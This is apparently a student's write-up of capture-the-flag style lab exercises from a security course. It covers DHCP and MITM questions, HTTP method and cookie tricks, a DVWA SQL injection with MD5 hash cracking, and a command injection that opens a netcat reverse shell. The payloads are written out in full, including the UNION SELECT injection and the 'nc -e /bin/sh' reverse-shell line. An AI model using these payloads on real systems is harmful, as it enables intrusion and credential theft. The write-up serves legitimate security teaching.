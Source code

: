 
> [!exercise]+ Exercise 1 - DHCP Attack
> Another type of attack that was not included in the workshop is DHCP (dynamic host configuration protocol) based attacks. Do a bit of research into how DHCP works and about some DHCP attacks and answer the following questions.
> 1. What are the 4 packets (messages) that are communicated between the client seeking and IP address and the DHCP server?
> 2. Are the 4 messages Layer 2 unicast or broadcast (be careful not to confuse between Layer 3 broadcast, which is sending to an IP broadcast address like 10.0.2.255, as opposed to Layer 2 broadcast which is sent to MAC address FF:FF:FF:FF:FF:FF).
> 3. Therefore, in a switched network, which of the 4 messages in the DHCP negotiation would the attacker be able to observe?
> 4. Briefly explain what DHCP spoofing and DHCP starvation attacks are executed, and how the two can be used in combination. 
> 5. For an adversary looking to perform MITM, which DHCP configuration option(s) would you try to manipulate? 
> 6. Briefly explain how "DHCP **snooping**" configuration in a switch work to prevent DHCP **spoofing**?
> 
> **Answers:**
> 1. ANSWER GOES HERE


> [!exercise]+ Exercise 2 - MITM Prevention
> 1. Briefly explain (1 or 2 sentences max) how HTTPS can defeat MITM via ARP cache poisoning.
> 2. In the same context, why did Chrome developers decided to display "Not Secure" on HTTP websites?
> 3. In the same context, what's the danger of ignoring a browser error message like this one and clicking on "Continue to this website"?
> 4. Briefly write an explanation that you might provide to your grandparent (or anyone who may not be IT savvy) why they should be careful when connecting to open WiFi hotspots like the ones at airports.



> [!exercise]+ Exercise 3 
> Go to `http://<Your Hacklab VM IP addr>:8081/method.php` to get the secret!
> 
> **Answer:**
> Initially, I tried visiting the site in my browser but only received a hint: `"Hm... you don't seem to be using the correct METHOD. Explore your available OPTIONS."` This made it clear that I should attempt an `OPTIONS` request via `curl`.
> 
> ```bash
> curl -X OPTIONS http://192.168.56.113:8081/method.php
> ```
> 
> This returned the flag:
> ```
> csf2021_{helper-evaluate-mammogram}
>```


> [!exercise]+ Exercise 4
> Access `http://192.168.56.113:8081/admin.php` to get the secret!
> 
> **Answer:**
> I visited the page and clicked on the request button, which revealed the hint: `"Sorry, only superadmins are allowed to see the secret."` This led me to inspect the cookies via the browser’s developer tools.
> 
> I adjusted the `superuser` cookie to `true` and clicked on the request button again:
> 
> ```
> Welcome Super User! Here is the secret: csf2021_{client-postbox-amid}
> ```
> 
> ![[Pasted image 20240502052455.png]]


> [!exercise]+ Exercise 5
> When on the high-security setting of DVWA, go to the SQL injection section and attempt to exploit the vulnerability. A helpful hint is to examine the source code present on the page. Retrieve the hash associated with the user ‘1337’ and also convert the hash to its plaintext form. Explain the process of exploiting the vulnerability, identify the type of hash obtained, and describe the method used to convert the hash to plaintext.
> 
> **Answer:**
> 
> I started off by looking at the PHP source code of the SQL Injection page. I noticed that the query was directly incorporating user inputs via session variables into an SQL command. This configuration was particularly vulnerable to SQL injection ... especially if those session variables could be altered!
> 
> ```
> a' UNION SELECT user, password FROM users -- -&Submit=Submit
> ```
> 
> I injected into the session variable to manipulate the SQL query. This injection effectively combined a falsified SQL command with the original, intended to pull user names and passwords directly from the database.
> 
> ```
> ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
First name: admin  
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: gordonb  
>Surname: e99a18c428cb38d5f260853678922e03
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: 1337  
>Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: pablo  
>Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: smithy  
>Surname: 5f4dcc3b5aa765d61d8327deb882cf99
>```
> 
> The output displayed the hash for user ‘1337’ as `8d3533d75ae2c3966d7e0d4fcc69216b`. From workshop 8, we know that these are md5 hashes WITHOUT salts, so we can now begin decrypting it to plain text.
> 
> - I've added an excerpt from workshop 5 to verify this
> ```
> passwords here are MD5 hashes, not plaintext passwords. But you can right away tell that the password for the user admin is the same as smithy, becuase their password hashes are identical (this is why password SALT is so important, as we will learn in later workshops).
> ```
> 
> Using the same hashcat method from assignment 1 with the `rockyou.txt` dictionary, we find that the plaintext password is `charley`
> 
> ```
> hashcat -m 500 -o out hash rockyou.txt --force
> 
> ...
> 
> 8d3533d75ae2c3966d7e0d4fcc69216b:charley
> ```
> To confirm the findings, I logged back into the DVWA using the credentials `1337` and `charley`, verifying that the password matched, thereby successfully exploiting the vulnerability and decrypting the hash.
> 
> ![[Pasted image 20240502104809.png]]


> [!exercise]+ Exercise 6
> Go to `http://<Your Hacklab VM IP addr>:8083/doa.php` to get the secret!
> 
> **Answer:**
> 
> Upon navigating to the webpage and seeing user input, I suspected a possible command injection vulnerability. Before attempting to exploit the vulnerability, I set up a **netcat listener** on my local machine using:
> 
> ```
> nc -lvp 1234
> ```
> 
> After setting up the listener, I submitted the form with the injected command and awaited the connection on my local machine.
> 
> ```
> 127.0.0.1 & nc -e /bin/sh 192.168.117.124 1234
> ```
> I now have a **reverse shell!** Using `ls -a` command to list all hidden files, I found `.the_secret_file`.
> 
> I then used the `cat` command to reveal its contents:
> 
> ```
> cat .the_secret_file
> ```
> ```
> ___________________________________________
> / csf2024s1_{botchier-disquiparancy-propp \
> \ er}                                     /
>  -----------------------------------------
>         \   ^__^
>          \  (oo)\_______
>             (__)\       )\/\
>                 ||----w |
>                 ||     ||
> ```
> 


